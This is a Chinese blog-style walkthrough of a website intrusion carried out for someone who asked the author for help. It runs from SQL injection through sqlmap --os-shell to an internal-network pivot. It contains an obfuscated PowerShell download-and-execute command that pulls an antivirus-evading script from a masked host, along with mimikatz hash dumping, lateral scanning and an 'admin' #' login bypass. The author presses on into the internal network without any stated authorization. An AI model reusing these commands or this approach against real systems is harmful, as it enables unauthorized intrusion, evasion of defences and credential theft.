call：有人来找我叫我帮他
Getshell

1.Getshell
先登上后台看看先，如图：

yunsee查看一下iis8.5不存在解析漏洞

翻后台找到了一个可以上传html的点，没什么用!
后台放弃！

扫描目录发现了网站备份源码！去看看敏感文件


web.config有账号密码，暂时没用，先留着吧。
看了一下源码没发现什么地方可以利用，准备放弃了，突然想试试SQL注入。

那就上sqlmap —os-shell看看吧。

普通的权限，上cs操作!
powershell -w hidden -NoExit "$c1='IEX(New-ObjectNet.WebClient).Downlo';$c2='123(''http://xxxxx/bypass_test.ps1'')'.Replace('123','adString');IEX ($c1+$c2)"
这段ps代码简单混淆了一下，不加-w hidden可以过杀软。
我这的bypass_test.ps1经过了免杀了（ps免杀的工具，以前APT组织也有在用）。
工具地址在这里：传送门！

2.提权
cs上线了，先看看系统补丁,如下图：

240个补丁，我吐了，各种exp都没用！
上msf用local_exploit_suggester 让它扫一下看看有没有可以用的漏洞。
这里直接用cs可以spwn给msf 先去监听那里新建一个。

这里要用foreign 然后host用msf的ip，端口就msf监听的端口 我这边直接监听778。

然后去msf choose选择刚刚新建的监听。


可以看到这边msf成功上线，然后用local_exploit_suggester扫描一下


成功返回session，getuid查看一下

3.读取密码
直接SYSTEM，拿下，上mimikatz读取一下密码

这里发现读取不到，这里是因为2012 R2以上时
默认禁止在内存缓存中保存明文密码，但是读到了hash

4.内网渗透
本来是不打算接着操作的，但是想着都到这步了，就看看吧，哈哈哈哈哈不碍事，之前看过不存在域先用cs弄socks代理。
然后用socksCap64来添加代理。

然后当然是测试一下连通性咯O(∩_∩)O

通了就很棒！查看一下ip然后扫一下内网服务。

子网掩码是255.255.255.240 那就是172.16.0.1/20
没有路由交换基础的请去学习！！！至少学完NP,以后我可能也会更新路由交换和TCP/ip的其他东西，路由交换和TCP是最主要的！
我这里用御剑的端口扫描，线程不能开太高容易死，就扫80端口先(要在刚刚的sockscap64里面添加然后在里面运行才行)

扫出来了很多的80，导出来之后用test404的title获取,来获取一下网站的标题再来选目标。

看到了一个管理系统，然后去firefox（火狐挺好用的）打开用代理设置一下。

设置好之后就可以去访问了。
可以看到是个登陆的页面，可以尝试一下弱口令，

错误，但是发现了是thinkphp的框架，尝试使用rce。

rce尝试无果，发现是phpstudy，尝试phpmyadmin发现不存在!
尝试使用phpstudy rce吧!

rce无果，尝试注入吧~ε=(´ο｀*)))唉

哎嘿嘿~存在注入，尝试万能密码 admin’ #

直接进来了，后面getshell没法绕过上传，放弃了，内网就到这吧，其他就不弄了~
最后总结一下吧
之前提权弄了半天都没弄下来，然后找了位表哥帮忙提权了~
(其实之前就想到过要用这个扫描，但是懒得传msf，果然就是懒限制了我的操作)
内网思路的一些分享：注入登录的验证码是可以重复使用的，在不存在注入的情况下，其实可以爆破的。
内网渗透发现不存在域就扫一下内网其他机器的常见端口80,445,1433,3306,3389,6379等常见的端口，然后再进行渗透。